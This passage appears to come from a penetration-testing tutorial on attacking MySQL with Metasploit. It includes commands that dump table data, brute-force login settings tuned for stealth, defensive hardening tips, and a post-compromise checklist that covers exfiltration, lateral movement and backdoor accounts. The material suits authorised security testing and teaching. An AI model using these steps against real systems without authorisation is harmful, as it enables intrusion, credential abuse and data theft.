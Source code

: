 ```bash
# Extract table names
set SQL 'use $DATABASE; show tables;';
run;

# Extract data from each table (example)
set SQL 'use $DATABASE; select * from users;';
run;

exit"
```

## Best Practices and Security Considerations

### Optimization Tips

```bash
# For stealth operations
msf6 auxiliary(scanner/mysql/mysql_login) > set BRUTEFORCE_SPEED 3
msf6 auxiliary(scanner/mysql/mysql_login) > set THREADS 2

# For comprehensive testing
msf6 auxiliary(scanner/mysql/mysql_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/mysql/mysql_login) > set USER_AS_PASS true
```

### Common MySQL Security Issues

1. **Weak root passwords** (default or easily guessable)
2. **Network-accessible MySQL** without proper firewall rules
3. **Excessive privileges** for application users
4. **Outdated MySQL versions** with known vulnerabilities
5. **Default configurations** with unnecessary features enabled

### Defensive Recommendations

- Use strong, unique passwords for MySQL accounts
- Restrict network access to MySQL (bind-address = 127.0.0.1)
- Implement principle of least privilege for database users
- Regularly update MySQL software
- Monitor MySQL logs for suspicious activity
- Use MySQL enterprise security features if available

## Post-Compromise Actions

### After Gaining MySQL Access

1. **Document Findings**: Save credentials, database structures, and sensitive data
2. **Privilege Escalation**: Check for ways to elevate privileges within MySQL
3. **Lateral Movement**: Use discovered credentials for other services
4. **Data Exfiltration**: Extract sensitive information from databases
5. **Persistence**: Create backdoor users or scheduled tasks if possible
